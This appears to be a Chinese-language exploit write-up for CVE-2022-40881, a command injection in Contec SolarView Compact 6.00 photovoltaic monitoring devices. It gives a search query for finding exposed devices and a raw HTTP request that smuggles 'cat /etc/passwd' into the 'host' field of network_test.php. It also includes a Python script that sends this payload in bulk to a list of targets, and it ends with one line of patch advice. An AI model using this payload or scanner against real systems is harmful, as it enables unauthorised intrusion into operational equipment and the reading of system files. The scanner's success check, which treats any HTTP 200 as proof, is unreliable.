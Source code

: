 # SolarView Compact 命令注入漏洞 CVE-2022-40881

# SolarView Compact 命令注入漏洞 CVE-2022-40881

## 漏洞描述

Contec SolarView Compact是日本Contec公司的一个应用系统。提供光伏发电测量系统。Contec SolarView Compact 6.00版本存在安全漏洞，攻击者利用该漏洞可以通过 network_test.php 的命令注入攻击。

## 漏洞影响

```
SolarView Compact 6.00
```

## 网络测绘

```
body="SolarView Compact" && title=="Top"
```

## 漏洞复现

发送数据包：

```
POST /cgi-bin/network_test.php HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 44

host=%0acat${IFS}/etc/passwd%0a&command=ping
```

## 漏洞POC

```python
import sys
import requests
import argparse

def poc_scan(url):
    try:
        url = url + "/network_test.php"
        response = requests.post(url,data = "host=%0acat${IFS}/etc/passwd%0a&command=ping",timeout=2)
        if response.status_code == 200:
            print(f"\033[92m[+] {url} is vulnerable!\033[0m")
        else:
            print(f"\033[31m[-] {url} is not vulnerable!\033[0m")
    except:
        pass


def open_file(filename):
    with open(filename, 'r', encoding='utf-8') as f:
        filecontent = f.read()
    return filecontent

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url")
    parser.add_argument("-f", "--file")
    args = parser.parse_args()
    url = args.url
    filename = args.file

    if sys.argv[1] == '-u':
        poc_scan(url)
    else:
        filecontent = open_file(filename)
        filecontent = filecontent.split("\n")
        for i in filecontent:
            poc_scan(i)
```

## 修复建议

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://www.contec.com/products-services/environmental-monitoring/solarview/


